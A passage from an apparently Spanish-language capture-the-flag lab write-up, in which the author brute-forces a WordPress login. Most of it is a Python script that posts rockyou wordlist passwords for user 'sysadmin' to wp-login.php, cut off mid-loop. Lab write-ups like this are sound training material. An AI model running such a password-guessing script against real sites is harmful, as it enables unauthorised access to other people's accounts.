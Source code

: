 <img src="/assets/images/thm-writeup-for-business-reasons/img4.png">
</p>

Entonces Proseguí aplicando fuerza bruta al panel de login de wordpress, se podría haber hecho con herramientas como burpsuite, pero yo preferí hacerlo con el siguiente script en python3:

```python
#!/usr/bin/python3

import signal
import requests
from pwn import *
import sys

def def_handler(signal, frame):
	print("\n[!] Exiting...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "http://[IP]/wp-login.php" # <- CHANGE THIS
dictionary = open("/usr/share/wordlists/rockyou.txt", 'r')

def makeRequest():
	cookie = {'wordpress_test_cookie': 'WP+Cookie+check'}

	print("\n")
	p1 = log.progress("Password")

	for i in dictionary:
		data = {
			'log': 'sysadmin',
			'pwd': i,
			'wp-submit': 'Log+In',
			'testcookie': '1'
		}

		r = requests.post(url, data=data, cookies=cookie)
		text = r.text
```